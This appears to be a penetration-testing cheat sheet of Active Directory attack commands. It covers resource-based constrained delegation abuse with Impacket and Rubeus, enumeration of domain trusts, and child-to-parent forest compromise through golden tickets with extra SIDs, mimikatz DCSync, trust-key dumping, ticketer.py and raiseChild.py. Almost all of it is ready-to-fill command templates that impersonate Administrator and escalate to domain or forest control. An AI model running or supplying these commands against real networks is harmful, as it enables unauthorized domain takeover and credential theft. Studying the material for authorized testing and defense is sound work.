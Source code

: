```bash
RBCD: 
addcomputer.py -computer-name '<rbcd_com>$' -computer-pass '<rbcd_compass>' -dc-ip <dc> '<domain>/<user>:<password>'
rbcd.py -delegate-from '<rbcd_com>$' -delegate-to '<constrained>$' -dc-ip '<dc>' -action 'write' -hashes '<hash>' <domain>/<constrained>$
getST.py -self -impersonate "administrator" -dc-ip <ip> <domain>/<rbcd_com>$':'<rbcd_compass>
getST.py -spn host/<constrained> -hashes '' '<domain>/<computer_account>' -impersonate Administrator --dc-ip <dc_ip> -additional-ticket <previous_ticket>
getST.py -spn <constrained_spn>/<target> -hashes '<hash>' '<domain>/<constrained>$' -impersonate Administrator --dc-ip <dc_ip> -additional-ticket <previous_ticket>

```
## RBCD
```bash
rubeus.exe hash /password:<computer_pass> /user:<computer> /domain:<domain> -> rubeus.exe s4u /user:<fake_computer$> /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/<victim.domain.local> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt

rbcd.py -delegate-from '<computer>$' -delegate-to '<target>$' -dc-ip '<dc>' -action 'write' <domain>/<user>:<password> -> getST.py -spn host/<dc_fqdn> '<domain>/<computer_account>:<computer_pass>' -impersonate Administrator --dc-ip <dc_ip>

add computer account:
addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'
```

# Trust relationships

## Enumeration
```powershell
nltest.exe /trusted_domains
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
Get-DomainTrust -Domain <domain>
Get-DomainTrustMapping
ldeep ldap -u <user> -p '<password>' -d <domain> -s ldap://<dc_ip>  trusts
```
## Child Domain to Forest Compromise - extra SIDs (parent/child) (child/parent)
Golden ticket
```powershell
Get-DomainSID -Domain <domain>
Get-DomainSID -Domain <target_domain>
-> mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt
  -> mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt

lookupsid.py  -domain-sids <domain>/<user>:'<password>'@<dc_ip> 0
-> ticketer.py -nthash <child_krbtgt_hash> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_domain_sid>-519 goldenuser

raiseChild.py <domain>/<user>:'<password>' 
```
inter_realm_ticket TRUST (parent/child) (child/parent)
```cmd
mimikatz lsadump::trust /patch -> mimikatz kerberos::golden /user:Administrator /domain:<domain> /sid:<domain_sid> /aes256:<trust_key_aes256> /sids:<target_domain_sid>-519 /service:krbtgt /target:<target_domain> /ptt
ticketer.py -nthash <trust_key> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_domain_sid>-519 -spn krbtgt/<parent_domain> goldenuser
```